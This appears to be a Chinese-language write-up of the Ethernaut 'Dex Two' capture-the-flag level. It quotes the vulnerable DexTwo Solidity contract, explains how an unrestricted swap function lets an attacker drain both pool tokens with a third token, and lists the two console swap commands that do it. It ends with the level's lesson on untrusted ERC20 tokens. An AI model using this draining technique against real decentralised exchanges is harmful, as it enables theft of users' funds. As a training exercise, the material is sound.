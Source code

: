# Dex Two

> This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.
>
> You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.
>
> You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.
>
>  Things that might help:
>
> - How has the `swap` method been modified?
> - Could you use a custom token contract in your attack?

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```



## 攻击思路

swap的逻辑
$$
((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)))
$$
我初始有10个token1，10个token2，合约有100个token1，100个token2。

我另外有token3(usdt => 0xD9BA894E0097f8cC2BBc9D24D308b98e36dc6D02).

给合约转100个token3

第一次swap，我用100个token3换100个token1，因为
$$
(100*100)/100 = 100
$$
第一次swap后，我就有100个token1，0个token2，损失100个token3；合约有0个token1，110个token2，200个token3。



第二次swap，我用200个token3换100个token2，因为
$$
(200*100)/200 = 100
$$
第二次swap后，我就有100个token1，100个token2，损失200个token3；合约有0个token1，0个token2，400个token3。

至此，经过2轮，合约中的token1与token2已经被掏空了。

## 攻击流程

首先，在USDT代币中授权300给Dex,并且给DEX转100代币

```js
await contract.swap(0xD9BA894E0097f8cC2BBc9D24D308b98e36dc6D02, await contract.token1(),100)
```

```
await contract.swap(0xD9BA894E0097f8cC2BBc9D24D308b98e36dc6D02, await contract.token2(),200)
```

成功！



As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.
